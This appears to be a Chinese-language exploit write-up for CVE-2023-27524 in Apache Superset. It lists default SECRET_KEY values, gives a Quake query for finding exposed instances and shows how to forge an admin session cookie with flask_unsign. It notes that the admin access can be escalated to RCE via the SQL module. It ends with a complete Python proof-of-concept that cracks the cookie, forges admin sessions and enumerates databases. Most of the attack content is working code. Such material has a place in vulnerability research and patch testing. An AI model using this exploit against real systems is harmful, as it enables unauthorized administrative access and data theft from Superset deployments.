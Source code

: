 # Apache Superset SECRET_KEY 未授权访问漏洞 CVE-2023-27524

# Apache Superset SECRET_KEY 未授权访问漏洞 CVE-2023-27524

## 漏洞描述

Apache Superset 是一款现代化的开源大数据工具，也是企业级商业智能 Web 应用，用于数据探索分析和数据可视化。它提供了简单易用的无代码可视化构建器和声称是最先进的 SQL 编辑器，用户可以使用这些工具快速地构建数据仪表盘。CVE-2023-27524 中，未经授权的攻击者可根据默认配置的SECRET_KEY伪造成管理员用户访问Apache Superset。

## 漏洞影响

```
Apache Superse <= 2.0.1
```

## QUAKE

```
app.name="Apache Superset"
```

## 漏洞复现

登陆页面

![image-20230504141719702](images/image-20230504141719702.png)

漏洞修复补丁

```
https://github.com/apache/superset/pull/23186/files
```

![image-20230504142107277](images/image-20230504142107277.png)

补丁代码中，新建了判断用户是否使用了默认的Key进行配置，如果为默认的Key，就直接中断启动,。但在 Docker的 env 下还是添加了固定的 Key: TEST_NON_DEV_SECRET

![image-20230504142118809](images/image-20230504142118809.png)

```
# https://github.com/horizon3ai/CVE-2023-27524/blob/main/CVE-2023-27524.py
SECRET_KEYS = [
    b'\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h',  # version < 1.4.1
    b'CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET',          # version >= 1.4.1
    b'thisISaSECRET_1234',                            # deployment template
    b'YOUR_OWN_RANDOM_GENERATED_SECRET_KEY',          # documentation
    b'TEST_NON_DEV_SECRET'                            # docker compose
]
```

以Docker下的环境举例

![image-20230504142138933](images/image-20230504142138933.png)

初次请求时会获取到 Cookie, 使用默认Key验证 Cookie是否可被伪造

![image-20230504142150081](images/image-20230504142150081.png)

登陆主页面观察主要参数

![image-20230504142206013](images/image-20230504142206013.png)

通过设置参数 user_id 和 _user_id 为 1 ,构造加密Cookie

```
>>> from flask_unsign import session
>>> session.sign({'_user_id': 1, 'user_id': 1},'TEST_NON_DEV_SECRET')
'eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.ZE51uw.EdD7zSzojgY4keqZLOKR4GndJf8'
```

利用构造的 Cookie就可以获取到 Web后台管理权限, 后台中存在数据库语句执行模块，通过设置允许执行其他数据库语句后利用数据库语句 RCE

![image-20230504142222421](images/image-20230504142222421.png)

![image-20230504142234700](images/image-20230504142234700.png)

## 漏洞POC

```python
from flask_unsign import session
import requests
import urllib3
import argparse
import re
from time import sleep
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


SECRET_KEYS = [
    b'\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h',  # version < 1.4.1
    b'CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET',          # version >= 1.4.1
    b'thisISaSECRET_1234',                            # deployment template
    b'YOUR_OWN_RANDOM_GENERATED_SECRET_KEY',          # documentation
    b'TEST_NON_DEV_SECRET'                            # docker compose
]

def main():

    parser = argparse.ArgumentParser()
    parser.add_argument('--url', '-u', help='Base URL of Superset instance', required=True)
    parser.add_argument('--id', help='User ID to forge session cookie for, default=1', required=False, default='1')
    parser.add_argument('--validate', '-v', help='Validate login', required=False, action='store_true')
    parser.add_argument('--timeout', '-t', help='Time to wait before using forged session cookie, default=5s', required=False, type=int, default=5)
    args = parser.parse_args()

    try:
        u = args.url.rstrip('/') + '/login/'

        headers = {
            'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:101.0) Gecko/20100101 Firefox/101.0'
        }

        resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)
        if resp.status_code != 200:
            print(f'Error retrieving login page at {u}, status code: {resp.status_code}')
            return

        session_cookie = None
        for c in resp.cookies:
            if c.name == 'session':
                session_cookie = c.value
                break

        if not session_cookie:
            print('Error: No session cookie found')
            return

        print(f'Got session cookie: {session_cookie}')

        try:
            decoded = session.decode(session_cookie)
            print(f'Decoded session cookie: {decoded}')
        except:
            print('Error: Not a Flask session cookie')
            return

        match = re.search(r'&#34;version_string&#34;: &#34;(.*?)&#34', resp.text)
        if match:
            version = match.group(1)
        else:
            version = 'Unknown'

        print(f'Superset Version: {version}')


        for i, k in enumerate(SECRET_KEYS):
            cracked = session.verify(session_cookie, k)
            if cracked:
                break

        if not cracked:
            print('Failed to crack session cookie')
            return

        print(f'Vulnerable to CVE-2023-27524 - Using default SECRET_KEY: {k}')

        try:
            user_id = int(args.id)
        except:
            user_id = args.id

        forged_cookie = session.sign({'_user_id': user_id, 'user_id': user_id}, k)
        print(f'Forged session cookie for user {user_id}: {forged_cookie}')

        if args.validate:
            try:
                headers['Cookie'] = f'session={forged_cookie}'
                print(f'Sleeping {args.timeout} seconds before using forged cookie to account for time drift...')
                sleep(args.timeout)
                resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)
                if resp.status_code == 302:
                    print(f'Got 302 on login, forged cookie appears to have been accepted')
                    validated = True
                else:
                    print(f'Got status code {resp.status_code} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id.')
            except Exception as e_inner:
                print(f'Got error {e_inner} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id.')

            if not validated:
                return

            print('Enumerating databases')
            for i in range(1, 101):
                database_url_base = args.url.rstrip('/') + '/api/v1/database'
                try:
                    r = requests.get(f'{database_url_base}/{i}', headers=headers, verify=False, timeout=30, allow_redirects=False)
                    if r.status_code == 200:
                        result = r.json()['result'] # validate response is JSON
                        name = result['database_name']
                        print(f'Found database {name}')
                    elif r.status_code == 404:
                        print(f'Done enumerating databases')
                        break # no more databases
                    else:
                        print(f'Unexpected error: status code={r.status_code}')
                        break
                except Exception as e_inner:
                    print(f'Unexpected error: {e_inner}')
                    break


    except Exception as e:
        print(f'Unexpected error: {e}')


if __name__ == '__main__':
    main()
```

